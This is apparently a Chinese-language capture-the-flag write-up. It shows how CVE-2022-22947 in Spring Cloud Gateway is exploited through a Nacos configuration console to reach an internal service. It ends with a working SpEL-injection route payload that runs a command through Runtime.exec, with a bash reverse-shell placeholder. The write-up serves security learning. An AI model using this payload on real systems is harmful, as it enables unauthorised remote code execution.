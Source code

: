 Nacos输入源码bootstrap.yml中spring cloud的IP和Group，查到就开放在本机

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240920200223690.png)

服务中点详情也能看到端口与配置文件想对应。说明Nacos连接了spring cloud gateway，现在想想怎么打spring cloud gateway

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240920200343030.png)

因为这里172.12.xx是内网IP，不能直接打18888端口（访问都访问不了），只能通过Nacos来打

依赖看到

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240920200640976.png)

CVE-2022-22947 影响范围：

Spring Cloud Gateway 3.1.x < 3.1.1

Spring Cloud Gateway 3.0.x < 3.0.7

题目中的backcfg服务节点（就是nacos服务本身，两者是同一个机器）加载配置文件的话就可以在控制台创建backcfg.json配置，之后backcfg服务节点就会自动导入配置。Nacos会自动访问/actuator/gateway/refresh触发路由

配置列表->+->新建配置，payload塞配置内容里发布，记得Data ID填backcfg，因为Spring cloud gataway bootstrap就是写的自动加载nacos这个配置文件

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240920215535807.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240920215706181.png)

标准解，通过加路由的方式触发filter进而代码执行

```json
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "exam",
                        "order": 0,
                        "uri": "lb://service-provider",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(\"bash反弹shell\").getInputStream())).replaceAll('\\n','').replaceAll('\\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```
